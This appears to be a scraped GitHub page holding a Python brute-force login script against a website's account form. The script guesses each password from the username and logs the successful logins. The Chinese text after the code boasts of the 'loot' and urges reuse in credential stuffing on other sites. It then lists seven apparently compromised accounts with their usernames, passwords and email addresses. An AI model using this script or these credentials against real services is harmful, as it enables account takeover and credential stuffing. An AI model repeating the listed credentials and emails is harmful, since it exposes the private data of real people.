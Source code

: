         body = (
            f"--{boundary}\r\n"
            "Content-Disposition: form-data; name=\"userid\"\r\n\r\n"
            f"{i}\r\n"
            f"--{boundary}\r\n"
            "Content-Disposition: form-data; name=\"password\"\r\n\r\n"
            f"{b}\r\n"
            f"--{boundary}\r\n"
            "Content-Disposition: form-data; name=\"autoLogin\"\r\n\r\n"
            "T\r\n"
            f"--{boundary}\r\n"
            "Content-Disposition: form-data; name=\"alternativeCaptcha\"\r\n\r\n"
            f"{alternativeCaptcha}\r\n"
            f"--{boundary}\r\n"
            "Content-Disposition: form-data; name=\"twoStepAuth\"\r\n\r\n"
            "\r\n"
            f"--{boundary}--\r\n"
        )

    
        response = requests.post(url, headers=headers, cookies=cookies, data=body.encode("utf-8"))


        if '"error"' not in response.text:
            print(f"✅ Username: {i}, Password: {b}, Status Code: {response.status_code}")
            print("Response:", response.text)

            if i in usernames:
                usernames.remove(i)
                with open("9999.txt", "w", encoding="utf-8") as f:
                    f.write('\n'.join(usernames) + '\n')

            # 加入 99.txt
            with open("99.txt", "a", encoding="utf-8") as f:
                f.write(i + '\n')

        elif '"CSRF_TOKEN_ERROR"' in response.text:
            print(f"🚫 CSRF ERROR Username: {i}, Password: {b}, Status Code: {response.status_code}")
            print("Response:", response.text)

        return



    with open("9999.txt", "r", encoding="utf-8") as file:
        usernames = [line.strip() for line in file if line.strip()]

    for i in usernames:
        c = re.sub(r'[a-zA-Z]', 'a', i)
        b = c.replace("aa", "a")  
        login_gamer(i, b)


以下是戰利品，簡簡單單的腳本可以造成如此可怕的破壞性。 可以將其拿去撞庫其他網站。

    Username: aa0903465890, Password: a0903465890, Status Code: 200  a0903465890@gmail.com 動漫風
    Response: {"data":{"status":1}}
    Username: aa0952121590, Password: a0952121590, Status Code: 200  bodishenqi@gmail.com
    Response: {"data":{"status":1}}
    Username: b0909165363, Password: a0909165363, Status Code: 200 a0952148610@gmail.com
    Response: {"data":{"status":1}}
    Username: b0903892528, Password: a0903892528, Status Code: 200 b0903892528@gmail.com
    Response: {"data":{"status":1}}
    Username: w0906997609, Password: a0906997609, Status Code: 200 datealive24561715@gmail.com
    Response: {"data":{"status":1}}
    Username: ab0907711641, Password: a0907711641, Status Code: 200 a0932602130@gmail.com
    Response: {"data":{"status":1}}
    Username: b0985883382, Password: a0985883382, Status Code: 200 b0985883382@gmail.com
    Response: {"data":{"status":1}}